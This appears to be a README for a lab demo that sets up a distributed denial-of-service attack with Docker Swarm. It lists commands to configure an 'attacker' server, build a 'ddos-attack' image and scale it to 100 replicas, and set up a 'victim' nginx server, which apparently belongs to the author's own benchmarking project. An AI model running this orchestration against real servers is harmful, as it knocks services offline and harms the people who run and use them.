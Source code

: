# DDOS Docker Swarm attack

## Config attacker server
```
    ./connect-to-attacker
    sudo apt update
    sudo apt install -y apt-transport-https ca-certificates curl software-properties-common
    curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
    sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu bionic stable"
    sudo apt update
    sudo apt install -y docker-ce
```

## Run attack
```
    git clone https://github.com/sjdonado/ddos-attack-docker-swarm-demo.git
    cd ddos-attack-docker-swarm-demo
    sudo docker build -t ddos-attack .
    sudo docker swarm init
    sudo docker service create --name ddos_attack_service --detach=false ddos-attack
    sudo docker service scale ddos_attack_service=100
    sudo docker service logs ddos-attack
```

## Config victim nginx server
```
    ./connect-to-victim
    sudo apt-get install nginx
    git clone https://github.com/sjdonado/ddos-attack-docker-swarm-demo.git
    cd ddos-attack-docker-swarm-demo
    sudo mv nginx/default.conf /etc/nginx/sites-enabled/default
    docker-compose -f ./api/docker-compose.yml up
    sudo service nginx restart
```

## Monitoring victim nginx server
Go to http://18.190.15.1/nginx_status

## Support
Victim project: https://github.com/sjdonado/db-benchmarking

